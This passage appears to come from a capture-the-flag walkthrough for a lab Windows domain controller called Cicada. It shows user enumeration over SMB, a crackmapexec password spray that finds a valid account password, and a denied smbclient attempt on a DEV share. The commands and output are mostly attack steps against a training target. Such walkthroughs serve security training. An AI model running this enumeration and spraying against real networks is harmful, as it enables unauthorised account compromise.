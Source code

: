 ```bash
SMB         10.129.23.187   445    CICADA-DC        553: CICADA\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.23.187   445    CICADA-DC        571: CICADA\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.23.187   445    CICADA-DC        572: CICADA\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.23.187   445    CICADA-DC        1000: CICADA\CICADA-DC$ (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        1101: CICADA\DnsAdmins (SidTypeAlias)
SMB         10.129.23.187   445    CICADA-DC        1102: CICADA\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        1103: CICADA\Groups (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        1104: CICADA\john.smoulder (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        1105: CICADA\sarah.dantelia (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        1106: CICADA\michael.wrightson (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        1108: CICADA\david.orelious (SidTypeUser)
SMB         10.129.23.187   445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.129.23.187   445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
```

After shortening this list we are left with:

```
CICADA\john.smoulder
CICADA\sarah.dantelia
CICADA\michael.wrightson
CICADA\david.orelious
CICADA\Dev Support
CICADA\emily.oscars
```

Using crackmapexec again we can now check the pass against each account name for smb. 

```bash
crackmapexec smb 10.129.142.175 -u users -p pass
SMB         10.129.142.175  445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.142.175  445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.142.175  445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.142.175  445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.142.175  445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.142.175  445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.142.175  445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.142.175  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

Maybe now I can view the DEV share?

```bash
smbclient //10.129.142.175/DEV -U 'michael.wrightson'
Enter WORKGROUP\michael.wrightson's password: 
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_ACCESS_DENIED listing \*
```
